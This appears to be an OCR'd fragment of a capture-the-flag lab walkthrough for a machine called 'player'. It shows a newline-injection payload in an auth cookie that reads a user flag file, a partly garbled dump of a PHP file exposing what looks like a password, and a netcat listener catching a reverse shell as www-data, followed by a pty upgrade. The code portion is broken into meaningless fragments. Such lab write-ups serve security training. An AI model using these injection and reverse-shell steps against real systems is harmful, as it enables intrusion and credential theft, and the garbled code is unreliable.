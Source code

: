 #> .readfile /home/telegen/user.txt  
DEBUG:__main__:auth_cookie: 'xxxx\nsource /home/telegen/user.txt\n'  
DEBUG:__main__:dummy exec returned: None  
INFO:__main__:30e47abe9e315c0c39462d0cf71c0f48  
#> .readfile /var/www/staging/fix.php

[..]

/for  
//fix  
//peter  
//CQXpm\z)G5D#%S$y=  
}  
public  
if($result  
static::passed($test_name);  
}  
static::failed($test_name);  
}  
}  
public  
echo  
echo  
echo  
}  
private  
echo

[..]

root@kali:~# ifconfig tun0 [344/344]  
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500  
inet 10.10.15.95 netmask 255.255.254.0 destination 10.10.15.95  
inet6 dead:beef:2::115d prefixlen 64 scopeid 0x0<global>  
inet6 fe80::b480:6dc6:a801:c6fa prefixlen 64 scopeid 0x20<link>  
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 100 (UNSPEC)  
RX packets 1080 bytes 981503 (958.4 KiB)  
RX errors 0 dropped 0 overruns 0 frame 0  
TX packets 1085 bytes 184916 (180.5 KiB)  
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

root@kali:~# nc -lnvp 1234  
listening on [any] 1234 ...  
connect to [10.10.15.95] from (UNKNOWN) [10.10.10.145] 58920  
Linux player 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux  
03:56:03 up 17 min, 0 users, load average: 0.00, 0.01, 0.01  
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
/bin/sh: 0: can't access tty; job control turned off  
$ python -c "import pty; pty.spawn('/bin/bash')"  
www-data@player:/$ ^Z  
[1]+ Stopped nc -lnvp 1234  
root@kali:~# stty raw -echo  
root@kali:~# nc -lnvp 1234
